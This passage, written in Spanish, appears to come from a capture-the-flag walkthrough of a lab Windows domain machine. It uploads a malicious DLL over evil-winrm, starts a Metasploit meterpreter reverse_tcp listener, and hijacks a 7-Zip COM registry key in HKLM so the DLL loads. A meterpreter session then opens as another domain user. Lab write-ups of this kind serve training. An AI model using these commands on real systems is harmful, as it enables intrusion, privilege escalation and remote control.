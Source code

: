 Una vez generado nuestro `payload` vamos a pasarnoslo a la maquina atacante, recordemos que teniamos una `shell` con el usuario `a` por `evil-winrm` por lo que vamos a utilizarla para desplazarnos a la carpeta `Temp` y subir el archivo asi:

```powershell
C:\Windows\Temp
upload 7zhack.dll
```

Info:

```
Info: Uploading /home/kali/Desktop/rustykey/bloodyAD/7zhack.dll to C:\Windows\Temp\7zhack.dll
                                        
Data: 12288 bytes of 12288 bytes copied
                                        
Info: Upload successful!
```

Ahora desde el usuario `ee.reed` vamos a desplazarnos a dicha carpeta y utilizar ese `payload` de esta forma:

Pero antes nos pondremos a la escucha con `metasploit` para obtener le `meterpreter`.

```shell
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT <PORT>
run
```

Info:

```
[*] Started reverse TCP handler on 10.10.14.79:7755
```

Ahora estando a la escucha vamos a ejecutar la tecnica de `COM Hijacking` con el `7zhack.dll` de nuestro `payload` para obtener la `shell`.

> NOTA: Estamos intentando hacerlo en un `HKLM` (Local Machine). Esto lo hacemos por que sabemos que el usuario `SUPPORT` tiene escritura privilegiada en el `HKLM`.

```powershell
reg add "HKLM\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" /ve /d "C:\Windows\Temp\7zhack.dll" /f
```

Info:

```
The operation completed successfully.
```

Veremos que ha funcionado y si esperamos un rato veremos lo siguiente en nuestra escucha:

```
[*] Started reverse TCP handler on 10.10.14.79:7755 
[*] Sending stage (203846 bytes) to 10.10.11.75
[*] Meterpreter session 1 opened (10.10.14.79:7755 -> 10.10.11.75:60955) at 2025-10-15 12:57:58 -0700

meterpreter > getuid
Server username: RUSTYKEY\mm.turner
```
